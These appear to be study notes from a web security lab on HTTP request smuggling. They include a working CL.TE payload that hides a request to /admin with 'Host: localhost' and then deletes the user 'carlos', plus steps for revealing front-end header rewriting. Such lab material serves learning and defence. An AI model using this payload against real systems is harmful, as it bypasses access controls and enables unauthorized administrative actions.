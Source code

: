 1. Observe that the merged request to `/admin` was rejected due to not using the header `Host: localhost`.
2. Issue the following request twice:
```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

1. Observe that you can now access the admin panel.
2. Using the previous response as a reference, change the smuggled request URL to delete `carlos`:
   change URL in -->  `/admin/delete?username=carlos`


### Revealing front-end request rewriting
In many app, the front-end server:
- performs some rewriting of requests 
- before they are forwarded to the back-end server,
	- typically by adding some additional request headers

For example, the front-end server might:
- terminate the TLS connection 
	- add some headers describing the protocol and ciphers that were used
	  
- add an `X-Forwarded-For` header containing the user's IP address;
- determine the user's ID based on their session token 
	- add a header identifying the user; 
- or add some sensitive information that is of interest for other attacks

=>
if you try to smuggle but you don't insert all the headers that the packet should have
=>
your attack will fail

There is often a simple way to reveal exactly how the front-end server is rewriting requests. To do this, you need to perform the following steps:
- Find a POST request that reflects the value of a request parameter into the app's response.
- Shuffle the parameters so that the reflected parameter appears last in the message body.
- Smuggle this request to the back-end server
	- followed directly by a normal request whose rewritten form you want to reveal.
